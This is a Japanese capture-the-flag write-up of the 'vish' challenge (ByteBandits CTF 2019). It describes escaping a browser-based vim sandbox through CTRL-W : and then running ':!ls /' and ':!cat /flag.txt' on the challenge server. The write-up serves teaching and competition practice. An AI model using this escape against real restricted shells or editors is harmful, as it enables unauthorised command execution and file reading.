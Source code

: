 ```yaml
---
title: vish (ByteBandits CTF 2019)
date: 2019-04-14
tags:
- "CTF"
- "ByteBandits CTF 2019"
categories: misc
---
```


{% asset_img problem.png %}

## 解説

とりあえず http://13.234.130.76:7003 にアクセスしてみる。

{% asset_img vim.png %}

最近使ったことがあるので `xterm.js` で `vim` のフロントエンドを作ってることはすぐにわかった。vim 系の問題は過去に何回かみたことがあって、基本的に無効化されたキー入力を突破してコマンドを実行する系だった。

今回の問題は `websockets` を使ってサーバーサイドで処理が行われているため、クライアントサイドをいじっても意味ない (たぶん)

とりあえず `vim` のマニュアル (日本語) を読み進めながら、1つずつ効果があるかどうか試していたところ [CTRL-W_:](https://vim-jp.org/vimdoc-ja/windows.html#CTRL-W_:) でコマンドが使えた。

あとは簡単で `:!ls /` でフラグっぽいのを探して

```
[No write since last change]
bin  boot  dev  etc  flag.txt  go  hello  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vim  vimrc

Press ENTER or type command to continue
```

`flag.txt` があったので、`:!cat /flag.txt` で終わり。

```
[No write since last change]
flag{bram_loves_jails}
```

## フラグ

`flag{bram_loves_jails}`

## 参考リソース

- [vimindex - Vim日本語ドキュメント](https://vim-jp.org/vimdoc-ja/vimindex.html)